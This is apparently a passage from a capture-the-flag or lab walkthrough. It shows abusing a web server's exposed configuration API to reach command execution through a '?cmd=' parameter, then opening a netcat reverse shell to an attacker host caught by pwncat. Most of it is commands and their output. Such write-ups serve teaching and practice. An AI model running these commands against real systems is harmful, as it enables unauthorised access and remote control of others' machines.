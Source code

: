 `vim ./listener.json`:
```json
{
    "pass": "applications/myapp" ←
}
```

`curl -X PUT -d @listener.json --header "Content-Type: application/json" http://192.168.56.137:9000/config/listeners/*:9999`:
```json
{
        "success": "Reconfiguration done."
}
```

`curl "http://192.168.56.137:9999/?cmd=id"`:
```
uid=1000(ice) gid=1000(ice) grupos=1000(ice),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth) ←
```

`curl "http://192.168.56.137:9999/?cmd=which%20nc"`:
```
/usr/bin/nc ←
```

`pwncat-cs -lp 4444`:
```
[13:13:13] Welcome to pwncat 🐈!
bound to 0.0.0.0:4444 ←
```

```
cmd='nc -e /bin/bash 192.168.56.118 4444'; \
encoded_cmd=$(printf %s "$cmd" | jq -s -R -r @uri); \
curl "http://192.168.56.137:9999/?cmd=$encoded_cmd";
```

```
[13:40:40] received connection from 192.168.56.137:58474 ←
[13:40:41] 192.168.56.137:58474: registered new host w/ db
```

![Victim: ice](https://img.shields.io/badge/Victim-ice-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
ice ←
```

`id`:
```
uid=1000(ice) gid=1000(ice) grupos=1000(ice),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)
```

`uname -a`:
```
Linux icecream 6.1.0-26-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.112-1 (2024-09-30) x86_64 GNU/Linux
```
